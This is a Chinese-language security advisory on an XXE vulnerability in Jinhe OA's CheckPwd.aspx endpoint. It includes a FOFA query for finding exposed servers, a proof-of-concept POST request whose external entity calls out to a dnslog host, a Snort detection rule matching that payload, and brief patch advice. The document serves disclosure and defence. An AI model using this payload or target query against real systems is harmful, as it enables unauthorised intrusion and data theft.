

# 金和OA CheckPwd.aspx 存在XXE漏洞

金和OA CheckPwd.aspx 存在XXE漏洞

# 影响版本

当前已发所有版本

# **漏洞状态**

|**漏洞细节**|**漏洞POC**|**漏洞EXP**|**在野利用**|
| :-: | :-: | :-: | :-: |
|**是**|**已公开**|**已公开**|**已知**|

## 风险等级

|**维度**|**评价**|
| :-: | :-: |
|**威胁等级**|**高危**|
|**影响面**|**广**|
|**攻击者价值**|**高**|
|**利用难度**|**低**|

# 漏洞复现

**fofa:**   ​**app=&quot;金和网络-金和OA&quot;**

**POC/EXP：**

**step1**  xxe-dnslog回显

```
POST /c6/Jhsoft.Web.workflat/CheckPwd.aspx/ HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/157.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 148

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://flvzspnppq.yutu.eu.org/xxe_test">
%remote;]>
```

​​

**sonrt规则：**

```
alert http any any -> $HOME_NET any (
    msg:"金和OA - CheckPwd.aspx XXE注入漏洞";
    flow:to_server,established;
    http.method; content:"POST";
    http.uri;
        content:"/c6/Jhsoft.Web.workflat/CheckPwd.aspx";
        fast_pattern;
    http.request_body;
        content:"<?xml"; nocase;
        content:"<!DOCTYPE"; nocase; distance:0;
        content:"<!ENTITY"; nocase; distance:0;
        content:"SYSTEM"; nocase; distance:0;
        content:"%remote;"; nocase; distance:0;
    metadata:
        service http,
        affected_product "金和OA",
        vulnerability_type "XXE Injection",
        severity "high";
    classtype:web-application-attack;
    sid:1000829;
    rev:1;
    priority:1;
)
```

# 漏洞修复

#### 官方修复

* **升级至安全版本**：联系官方获取针对该漏洞的安全补丁或升级版本。

‍
